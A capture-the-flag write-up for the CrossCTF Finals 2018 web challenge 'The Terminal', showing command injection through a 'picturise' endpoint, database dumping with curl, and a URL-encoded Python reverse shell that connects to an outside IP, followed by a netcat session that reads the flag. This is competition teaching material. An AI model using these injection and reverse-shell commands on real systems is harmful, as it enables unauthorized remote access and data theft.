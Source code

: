 
# CrossCTF Finals 2018: The Terminal (web)

> How long more can you stand it?
>
> http://ctf.pwn.sg:4083
>
> Creator unknown

## Challenge

It's a Fake Terminal. Look at the `<title>`. First thing to do in any interactive web app is view-source to find interesting things, followed by exploiting the server. 

DevTools > Debugger -> terminal.js has nothing interesting. 

However, boop.js has our command definitions for the terminal. All these other commands look boring other than posts and date. 

We tried to look at posts, but it seems to require some login. We skipped that and went straight into the date command. 

![Dating in Singapore](dating.png)

The path of the "image" seems to hint that there could be more than one "picturisable" option. A clear hint that this runs the `date` command, especially after seeing it's format. 

![Cute date](date.png)

We tried substituting `date` with `ls`: 

![Cuter date](ls.png)

Yay we have files! Maybe it's in the database.db: 

```
curl "http://ctf.pwn.sg:4082/picturise/cat%20database.db|strings|head%20-n%201" | imgcat
```
![SQLite format 3](sqlite.png)

(I use iTerm2, imgcat prints an image into my terminal) Using `cat`, `strings`, `head` and `tail`, I pretty much navigated through the entire database without gaining anything valuable except for being able to write a post as `admin`. Eww. 

We took a step back. Maybe it's just hiding somewhere in the filesystem. Let's pop a reverse shell because we're lazy and want to use slashes even though there's no need to:

```
curl "http://ctfsf.pwn.sg:4082/picturise/python%20-c%20'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22138.75.145.240%22%2C8080))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22sh%22%2C%22-i%22%5D)%3B'"
```

(Downloaded off the internet, URLEncoded, modified to connect to an internet server. Why does this challenge have access to the internet!?) We received our $money!

```sh
ambrosechua@some-magical-server $ nc -l 8080
$ ls
app.py
database.db
fonts
init.sql
motd.txt
$ ls /
backend
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
service
srv
sys
tmp
usr
var
$ ls /home/
theterminal
$ ls /home/theterminal
the_flag_is_here_not_elsewhere
$ cat /home/theterminal/the_flag_is_here_not_elsewhere
CrossCTF{C4ther1ne_zet4_j0n3s_w4s_1n_l0st_1n_tr4nsl4t1on}
```

Wohoo! Fast way to find the flag file.


